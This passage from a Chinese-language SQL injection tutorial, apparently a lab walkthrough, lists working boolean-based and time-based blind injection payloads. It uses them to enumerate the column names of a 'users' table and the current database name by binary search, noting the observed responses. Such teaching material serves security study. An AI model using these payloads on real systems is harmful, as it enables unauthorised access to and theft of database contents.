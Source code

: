 …

1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=8 # 显示存在

说明users表有8个字段。

接着挨个猜解字段名：

1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 # 显示不存在

…

1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=7 # 显示存在

说明users表的第一个字段为7个字符长度。

采用二分法，即可猜解出所有字段名。

### 5.猜解数据

同样采用二分法。

还可以使用 **基于时间的盲注** ： 

### 1.判断是否存在注入，注入是字符型还是数字型

输入1’ and sleep(5) #，感觉到明显延迟；

输入1 and sleep(5) #，没有延迟；

说明存在字符型的基于时间的盲注。

### 2.猜解当前数据库名

首先猜解数据名的长度：

1’ and if(length(database())=1,sleep(5),1) # 没有延迟

1’ and if(length(database())=2,sleep(5),1) # 没有延迟

1’ and if(length(database())=3,sleep(5),1) # 没有延迟

1’ and if(length(database())=4,sleep(5),1) # 明显延迟

说明数据库名长度为4个字符。

接着采用二分法猜解数据库名：

1’ and if(ascii(substr(database(),1,1))>97,sleep(5),1)# 明显延迟

…

1’ and if(ascii(substr(database(),1,1))<100,sleep(5),1)# 没有延迟

1’ and if(ascii(substr(database(),1,1))>100,sleep(5),1)# 没有延迟

说明数据库名的第一个字符为小写字母d。

…

